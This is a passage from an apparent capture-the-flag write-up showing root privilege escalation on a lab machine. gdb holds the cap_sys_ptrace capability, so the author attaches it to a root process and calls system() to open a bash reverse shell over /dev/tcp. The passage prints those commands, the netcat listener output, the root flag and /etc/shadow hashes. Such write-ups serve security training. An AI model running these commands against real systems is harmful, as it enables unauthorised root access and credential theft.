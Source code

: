 After a while I come across [this information](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace) from HackTricks:
_"If **GDB** is installed (or you can install it with `apk add gdb` or `apt install gdb` for example) you can **debug a process from the host** and make it call the `system` function. (This technique also requires the capability `SYS_ADMIN`)**.**"_

With this example attached to it:
```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```

_"**Linux Capabilities** are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root permissions. This model allows the binary or program to grant specific permissions to perform privileged operations rather than giving them root privileges by granting setuid, setguid or sudo without a password."_
```bash
developer@faculty:~$ getcap $(which gdb)
/usr/bin/gdb = cap_sys_ptrace+ep
```

With found cabability, ``ptrace``, the current user can attach to other processes and trace their system calls.
Testing to attach to a bunch of different services I get this error when trying to call `system` function:
```bash
(gdb) call (void)system("id")
No symbol "system" in current context.
```

However, I find one process that do work and we're able to get a reverse shell as `root`!
```bash
developer@faculty:/dev/shm$ ps aux | grep root
[... snip ...]
root         733  0.0  0.9  26896 18172 ?        Ss   08:00   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers

developer@faculty:/dev/shm$ gdb -p 733
[... snip ...]
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.4/4488 0>&1'")
[Detaching after vfork from child process 49752]

➜  faculty nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.169] 57988
bash: cannot set terminal process group (733): Inappropriate ioctl for device
bash: no job control in this shell
root@faculty:/# id && cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
b8a6c75d466c5979b9886556151f2866

cat /etc/shadow
root:$6$CiEa.wxtUKxG5q21$ED3MTE6ehz0j0q4kRQfK4bnLQFLZDrG9skIPsc0p2/X3JSBHFWjRWAZwEdUpqON6UqZOXvme7.1wHzNCVHqk9/:18559:0:99999:7:::
gbyolo:$6$ccGHy1FmLiRRtdRO$8YUhXxCWlUNP7/VSch6vqb3aEMs4j/ncGyPCObyl9rS8C/ZDiC4.NOXAb0B1cuMir0ilQK.IDWFjDEryXV5fx1:19165:0:99999:7:::
developer:$6$oY/UDfRNf0UfWpGG$PUFSZoqX4AM1igh7RFTCLRnbs4Qi19jdqOMeZWBIwnkVS//6iyRbNaY/ZFcNoCFDMfdgAlnA4C7EiPRV9Ayvc.:18559:0:99999:7:::
```
